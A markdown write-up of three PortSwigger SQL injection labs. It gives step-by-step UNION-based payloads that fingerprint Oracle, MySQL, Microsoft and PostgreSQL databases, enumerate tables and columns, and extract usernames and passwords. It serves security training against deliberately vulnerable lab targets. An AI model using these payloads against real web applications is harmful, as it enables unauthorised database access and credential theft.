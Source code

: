 # SQL Injection Part 3: Portswigger Labs
### [Lab 7: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

**To solve: Display the database version**

**STEP 1:**
Find number of colums
```html
' order by 3 --
```

**STEP 2:**
Find columns that contains text
```html
' UNION SELECT 'a', 'a' from DUAL--
```

**STEP 3:**
Print the version of the database
```html
' UNION SELECT banner, NULL from v$version--
```

### [Lab 8: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

**To solve: Display the database version string.**

**STEP 1:**
Find number of colums
```html
' order by 3#
```

**STEP 2:**
Find column that contains text
```html
' UNION SELECT 'a', 'a'#
```

**STEP 3:**
Display the version
```html
' UNION SELECT @@version, NULL#
```

### [Lab 9: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
' UNION select 'aff', 'asd'--
```

**STEP 3:**
Version of database(PostgreSQL)
```html
' UNION SELECT version(), NULL--
```

**STEP 4:**
List of tables name
```html
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

**STEP 5:**
List the name of columns
```html
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_RANDOM'--
```

**STEP 6:**
Finally output the name and the password
```html
' UNION select username_RANDOM, password_RANDOM from users_RANDOM--
```
